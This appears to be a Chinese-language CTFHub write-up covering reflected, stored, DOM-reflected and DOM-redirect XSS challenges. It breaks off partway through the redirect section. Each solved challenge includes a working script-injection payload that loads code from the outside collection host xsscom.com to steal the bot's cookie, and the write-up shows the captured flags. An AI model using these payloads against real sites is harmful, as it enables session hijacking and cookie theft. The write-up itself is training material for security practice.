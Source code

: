 ### XSS

#### 反射型

利用 [xsscom](http://xsscom.com/) 来获取与靶机的交互信息，新建项目、默认模块、无keepsession。

> #### What's your name 后的输入框填写 CTFHub 点击Submit
Send URL to Bot中URL后的输入框填写`http://challenge-f218d4eec3b4f897.sandbox.ctfhub.com:10800/?name=</textarea>'"><script src=http://xsscom.com//purFOq></script>` 点击Send

在接收到的内容中能看到`cookie : flag=ctfhub{c7f04cd9f2e9912994ba8f6b}`，提交即可。

------

#### 存储型

利用 [xsscom](http://xsscom.com/) 来获取与靶机的交互信息，新建项目、默认模块、无keepsession。

> #### What's your name 后的输入框填写 `</textarea>'"><script src=http://xsscom.com//purFOq></script>` 点击Submit
Send URL to Bot中URL后的输入框填写`http://challenge-c41534fe7b97ead5.sandbox.ctfhub.com:10800/?name=</textarea>'"><script src=http://xsscom.com//purFOq></script>` 点击Send

在接收到的内容中能看到`cookie : flag=ctfhub{3815ce26ba81106c87aeafb2}`，提交即可。

------

#### DOM反射

利用 [xsscom](http://xsscom.com/) 来获取与靶机的交互信息，新建项目、默认模块、无keepsession。

> #### CHange text 后的输入框填写 `';</script></textarea>'"><script src=http://xsscom.com//purFOq></script>` 点击Submit
>
> #### Send URL to Bot中URL后的输入框填写`http://challenge-80649bd4ea91be99.sandbox.ctfhub.com:10800/?text=</textarea>'"><script src=http://xsscom.com//purFOq></script>` 点击Send

在接收到的内容中能看到`cookie : flag=ctfhub{f9a1ed96d100cf595700f32d}`，提交即可。

------

#### DOM跳转

进入网站，直接查看源代码，下面是关键代码，这里有`XSS`漏洞：

```html
<script>
    var target = location.search.split("=")
    if (target[0].slice(1) == "jumpto") 
        location.href = target[1];
    }
</script>
```

这段代码的作用是从当前页面的`URL`中通过`GET`方式获取查询字符串，如果参数名为`jumpto`，则将页面重定向到参数值所指定的`URL`。

利用 [xsscom](http://xsscom.com/) 来获取与靶机的交互信息，新建项目、默认模块、无keepsession。
